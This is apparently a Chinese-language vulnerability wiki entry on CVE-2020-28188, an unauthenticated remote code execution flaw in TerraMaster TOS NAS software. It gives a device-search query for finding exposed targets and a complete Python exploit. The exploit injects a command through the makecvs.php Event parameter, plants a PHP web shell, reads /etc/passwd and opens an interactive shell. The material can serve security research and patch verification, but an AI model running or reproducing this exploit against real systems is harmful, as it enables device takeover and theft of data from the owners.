


TerraMaster TOS RCE CVE-2020-28188¶
漏洞描述¶
TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器
漏洞影响¶
TerraMaster TOS < 4.2.06
网络测绘¶
"TerraMaster" && header="TOS"
漏洞复现¶
登录页面如下

存在漏洞的为 /include/makecvs.php 中的Event参数
使用EXP文件上传并执行命令

漏洞POC¶
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06
#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()
url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"
def check_endpoint(url, headers):
response = requests.get(url+'/version', headers=headers, verify=False)
if response.status_code == 200:
print("[+] TerraMaster TOS version: ", str(response.content))
else:
print("\n[-] TerraMaster TOS response code: ", response.status_code)
sys.exit()
def upload_shell(url, headers, shell_filename):
payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
payload = urllib.parse.quote(payload, safe='')
print("[/] Uploading shell...")
response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
time.sleep(1)
response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
if ('root:' in str(response.content, 'utf-8')):
print("[+] Upload succeeded")
else:
print("\n[-] Error uploading shell: ", response.content)
sys.exit()
def interactive_shell(url, headers, shell_filename, cmd):
response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
print(str(response.text)+"\n")
def delete_shell(url, headers, shell_filename):
delcmd = "rm /usr/www/"+shell_filename
response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
print("\n[+] Shell deleted")
upload_shell(url, headers, shell_filename)
try:
while True:
cmd = input("# ")
interactive_shell(url, headers, shell_filename, cmd)
except:
delete_shell(url, headers, shell_filename)